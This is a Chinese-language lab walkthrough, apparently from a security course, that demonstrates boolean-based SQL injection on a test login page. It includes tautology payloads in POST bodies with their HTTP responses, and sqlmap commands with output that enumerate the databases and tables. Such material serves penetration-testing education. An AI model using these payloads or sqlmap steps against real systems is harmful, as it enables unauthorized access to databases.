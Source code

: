 使用返回`<`和下一个`>`按钮来验证这一点。

尝试其他永真条件：

```
POST /login.php HTTP/1.1

user=a' or 'elsrocks'='elsrocks'; -- -&pass=a

HTTP/1.1 302 Found
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
```

和其他永假条件：

```
POST /login.php HTTP/1.1

user=a' or 'elsrocks'='no'; -- -&pass=a

HTTP/1.1 302 Found
Location: login.php
```

user确实是一个有效的注入点，所以我们可以用sqlmap利用这个漏洞：

```
sqlmap -u http://sqlmap.test/login.php --data='user=a&pass=a' -p user --technique=B --banner
```
在login.php执行POST请求，发送`user=a&pass=a`作为请求体，它尝试在user参数中注入SQL命令，使用布尔注入技术，获取数据库banner。

不要跟随重定向：

```
sqlmap got a 302 redirect to 'http://sqlmap.test/login.php'. Do you want to follow? [Y/n] n
```
跳过测试其他数据库管理系统。

sqlmap发现user易受攻击。我们想要确认login页面使用数据库和search功能使用的数据库相同。使用`--dbs`命令枚举数据库。

```
sqlmap -u http://sqlmap.test/login.php --data='user=a&pass=a' -p user --technique=B --dbs

available databases [2]:
[*] blogdb
[*] information_schema
```

```
sqlmap -u http://sqlmap.test/login.php --data='user=a&pass=a' -p user --technique=B -D blogdb --tables

Database: blogdb
[3 tables]
article
comments
users
```
